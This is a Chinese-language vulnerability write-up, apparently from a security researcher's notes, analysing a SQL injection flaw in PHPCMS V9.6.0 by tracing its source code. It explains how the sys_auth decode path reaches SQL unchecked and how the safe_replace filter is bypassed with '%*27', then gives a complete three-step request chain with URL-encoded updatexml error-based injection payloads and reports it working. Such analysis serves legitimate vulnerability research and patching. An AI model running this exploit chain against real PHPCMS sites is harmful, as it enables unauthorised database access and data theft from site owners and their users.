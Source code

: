 @Author：Y4tacker

@time：2021/02/20 22：35



# PHPCMSV9.6.0注入漏洞

首先还是先列出payload再进行分析，这一次我们采用倒推法进行分析，因为我觉得更好去理解这个漏洞的流程，漏洞原因是未对解码后的数据进行校验就直接执行了sql

在审计之前我们得知道，这个cms在类初始化的时候一般都会调用`__construct`与`init`两个函数，从最后一步`m=content&c=down`我们不难分析得知是调用了`phpcms/modules/content/down.php`这个php页面`__construct`我们可以略过

我们先来开与`a_k`变量相关的函数部分,之后调用了其DECODE

![](pic/1.png)

我们不妨再去看看`sys_auth`是干什么的,不难看出里面是根据参数`$operation`的值来执行`ENCODE`与`DECODE`方法

![](pic/2.png)

我们再回到down.php，发现确实返回了DECODE后的值，并且后面没有进行参数校验就直接执行了sql语句

![](pic/3.png)

既然知道了这么多，那么我们下一步理所当然自然是去寻找能调用`sys_auth`的ECNODE方法的函数了

通过全局的搜索，发现`set_cookie`方法当中有过调用，并且这个方法自然是很容易被调用

![](pic/4.png)

继续全局搜索`set_cookie`方法，发现`phpcms/modules/attachment/attachments.php`下面有个`swfupload_json`函数相对来说是比较好利用的

![](pic/5.png)

根据这个CMS的架构我们不难得出想要调用它url后面就要拼接`m=attachment&c=attachments&a=swfupload_json`即可实现调用访问的时候页面出现报错，提示`您的会话已过期，请重新登录。`既然如此那么我们就得知道这是为什么，记得我之前说的这个cms在类初始化的时候一般都会调用`__construct`与`init`两个函数，因此我们去看看这两个函数，看了下只有`__construct`，我们发现他是通过校验session来判断是否登录的

![](pic/6.png)

我们看上面有一句

```php
$this->userid = $_SESSION['userid'] ? $_SESSION['userid'] : (param::get_cookie('_userid') ? param::get_cookie('_userid') : sys_auth($_POST['userid_flash'],'DECODE'));
```

因为我们这里session暂时、是不可控的cookie似乎也显得麻烦，所以如果什么都不管他会执行`sys_auth($_POST['userid_flash'],'DECODE')`，因此我们只需要让他不为空就行了呗，之后我们在搜索，发现调用sys_auth加密还有个地方是`phpcms/modules/wap/index.php`，siteid可控因此我们随便传个东西，看到int函数等操作也只能传数字了

```php
$this->siteid = isset($_GET['siteid']) && (intval($_GET['siteid']) > 0) ? intval(trim($_GET['siteid'])) : (param::get_cookie('siteid') ? param::get_cookie('siteid') : 1);

```

获取到cookie即可

![](pic/7.png)

接下来就是要构造payload了，我们再次回到`down.php`

![](pic/8.png)

发现这三行，一个是解除引用，之后`parse_url`可以实现变量覆盖，我们下面要想执行自定义SQL语句那么一定不能执行上面的`$id = intval($i);`绕过也很简单，只要不传入`$i`变量即可，那么我们可以先构造`%26id=%27%20and%20updatexml%281%2Cconcat%281%2C%28user%28%29%29%29%2C1%29%23%26m%3D1%26f%3Dhaha%26modelid%3D2%26catid%3D7%26`解码后是`&id=' and updatexml(1,concat(1,(user())),1)#&m=1&f=haha&modelid=2&catid=7&`，但是光这样的话我们发现绕不过下一步`phpcms/modules/attachment/attachments.php`下`swfupload_json`的waf，我们看一看在这个函数当中有一个

```
$arr['src'] = safe_replace(trim($_GET['src']));
```

我们跟进这个`safe_replace`函数，表面上一看该给我们过滤的都没了

![](pic/10.png)

但是仔细看它只是把不允许的字符替换为空，那么如果我们传入`%*27`替换过后那不就是`%27`了吗，那么把上面的payload稍微改一改即可

```php
%*27%20and%20updatexml%281%2Cconcat%281%2C%28user%28%29%29%29%2C1%29%23%26m%3D1%26f%3Dhaha%26modelid%3D2%26catid%3D7%26
```

接下来我们整理下完整的payload流程

```php
第一步：访问网站拿到set-cookie的值
/index.php?m=wap&c=index&siteid=1
第二步：post数据拿到set-cookie的值
/index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=%26id=%*27%20and%20updatexml%281%2Cconcat%281%2C%28user%28%29%29%29%2C1%29%23%26m%3D1%26f%3Dhaha%26modelid%3D2%26catid%3D7%26

userid_flash=第一步拿到的set-cookie的值
第三步访问
/index.php?m=content&c=down&a_k=第二步拿到的set-cookie的值
即可通过报错注入获取我们需要的数据
```

测试一下，成功得到我们需要的信息

![](pic/11.png)